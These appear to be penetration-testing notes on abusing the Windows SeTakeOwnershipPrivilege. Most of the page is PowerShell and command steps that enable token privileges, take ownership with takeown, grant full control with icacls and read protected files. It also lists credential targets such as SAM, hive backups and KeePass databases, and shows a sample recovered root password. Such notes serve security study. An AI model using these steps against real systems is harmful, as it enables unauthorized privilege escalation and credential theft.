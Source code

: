 
### **Overview**

- Grants user ability to _take ownership_ of any _securable object_:
    - Files, folders, registry keys, services, processes, printers, Active Directory objects

- Assigns _WRITE_OWNER_ rights (change owner in security descriptor)
- Default: _Administrators_ only
- Rare on standard users, but sometimes assigned to _backup service accounts_

---

### **Policy Location**

- `Computer Configuration > Windows Settings > Security Settings > Local Policies > User Rights Assignment`
- Setting: _Take ownership of files or other objects_

---

### **Abuse Scenarios**

- Escalate privileges by taking ownership of protected files
- Example files:
    - `cred.txt` in restricted directory
    - Sensitive config files (`web.config`, `SAM`, `SECURITY`, etc.)
    - KeePass databases, scripts, password files

---

### **Steps to Abuse**

**1. Check Privileges**
```powershell
whoami /priv
```
- Look for: `SeTakeOwnershipPrivilege` (state = Disabled)

**2. Enable Privilege**
```powershell
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
```

**3. Take Ownership of Target File**
```powershell
takeown /f "C:\Path\To\TargetFile.txt"
```

**4. Confirm New Owner**
```powershell
Get-ACL "C:\Path\To\TargetFile.txt" | Select Owner
```

**5. Modify File ACL (if access still denied)**
```powershell
icacls "C:\Path\To\TargetFile.txt" /grant youruser:F
```

**6. Read File**
```powershell
Get-Content "C:\Path\To\TargetFile.txt"
```


---

### **Example Target**
```txt
C:\Department Shares\Private\IT\cred.txt
```
- Original owner: Service account
- Final content after abuse:
```makefile
NIX01 admin
root:n1X_p0wer_us3er!
```

---

### **Risks & Precautions**

- **Potentially destructive**: may break app dependencies or disrupt services
- Avoid use on system-critical files unless authorized
- Always revert ownership/permissions after use or notify/report

---

### **Common Files to Target**

- `c:\inetpub\wwwroot\web.config`
- `%WINDIR%\repair\sam`
- `%WINDIR%\system32\config\*.sav`
- `%WINDIR%\system32\config\SecEvent.Evt`
- Sensitive user files: `*.kdbx`, `*.ps1`, `passwords.*`, `*.xml`, etc.

---

### **When to Use**

- User has `SeTakeOwnershipPrivilege`
- Misconfigured GPO allows granting it to a user (e.g., via SharpGPOAbuse)
- Need access to file with `Access Denied` but no other escalation route

